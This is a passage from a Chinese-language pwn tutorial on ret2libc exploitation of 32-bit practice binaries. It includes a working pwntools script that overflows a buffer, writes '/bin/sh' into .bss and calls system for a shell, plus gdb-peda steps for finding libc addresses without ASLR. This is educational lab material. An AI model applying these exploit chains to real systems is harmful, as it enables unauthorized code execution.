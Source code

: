 我们在.bss段发现了未利用的buf2，可以把binsh写入buf2
```
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)
.bss:0804A080 _bss            ends
```
```
from pwn import *

p = process('./ret2libc2')

gets_plt = 0x08048460
pop_ebx = 0x0804843d
system_plt = 0x08048490
buf2_add = 0x804a080

payload = flat(['a'*112,gets_plt,pop_ebx,buf2_add,system_plt,0xdeadbeef,buf2_add])

p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```
buf2_add是gets的参数，pop_ebx将gets返回后的堆栈平衡，移交控制权给system

## 3. 两个都没有&无ASLR
程序中两个都没有，但是我们可以利用libc中的system和'/bin/sh'
```
$ checksec ret2libc3
[*] '/home/han/ck/pwn/linux/ret2libc/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
### 寻找跳板
这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。
我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取libc.so在内存中的起始位置，接下来我们可以通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址0xf7e19d10以及"/bin/sh"的地址0xf7f588cf。
```
Breakpoint 1, main () at ret2libcGOT.c:20
20	ret2libcGOT.c: No such file or directory.
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e19d10 <system>
gdb-peda$ print __libc_start_main
$2 = {<text variable, no debug info>} 0xf7df5d90 <__libc_start_main>
gdb-peda$ find 0xf7df5d90,+2200000,"/bin/sh"
Searching for '0xf7df5d90,+2200000,/bin/sh' in: None ranges
Search for a pattern in memory; support regex search
Usage:
    searchmem pattern start end
    searchmem pattern mapname

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f588cf ("/bin/sh")
```

